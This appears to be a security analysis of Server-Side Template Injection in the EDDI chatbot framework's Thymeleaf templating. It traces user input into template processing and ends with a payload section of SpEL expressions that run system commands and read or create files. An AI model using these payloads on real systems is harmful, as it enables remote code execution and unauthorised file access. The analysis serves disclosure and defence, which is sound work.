 # Server-Side Template Injection (SSTI) Vulnerability Analysis - EDDI Chatbot Framework

## Executive Summary

The EDDI chatbot framework contains critical Server-Side Template Injection (SSTI) vulnerabilities in its Thymeleaf templating engine implementation. User-controlled input flows directly into template processing without proper sanitization, enabling remote code execution through malicious Thymeleaf expressions.

## Vulnerability Overview

### Root Cause Analysis

1. **Direct User Input Processing**: The `TemplatingEngine.processTemplate()` method processes user-controlled context data directly through Thymeleaf templates
2. **Insufficient Input Sanitization**: User input from conversation memory is inserted into template contexts without validation
3. **Powerful Expression Language**: Thymeleaf's Spring Expression Language (SpEL) provides access to Java runtime methods
4. **Multiple Injection Points**: Various components accept user input that flows into template processing

### Technical Details

**Vulnerable Code Path:**
```
User Input → ConversationMemory → OutputTemplateTask → TemplatingEngine.processTemplate() → Thymeleaf Template → Code Execution
```

**Key Vulnerable Files:**
- `src/main/java/ai/labs/eddi/modules/templating/impl/TemplatingEngine.java`
- `src/main/java/ai/labs/eddi/modules/templating/OutputTemplateTask.java`
- `src/main/java/ai/labs/eddi/engine/memory/ConversationMemoryUtilities.java`

## SSTI Payload Construction

### 1. Basic Code Execution Payloads

#### System Command Execution
```thymeleaf
${T(java.lang.Runtime).getRuntime().exec('calc.exe')}
${T(java.lang.Runtime).getRuntime().exec('cmd /c dir')}
${T(java.lang.Runtime).getRuntime().exec('powershell -c Get-Process')}
```

#### File System Access
```thymeleaf
${T(java.nio.file.Files).readString(T(java.nio.file.Paths).get('C:\\Windows\\System32\\drivers\\etc\\hosts'))}
${T(java.io.File).new('C:\\temp\\malicious.txt').createNewFile()}
```
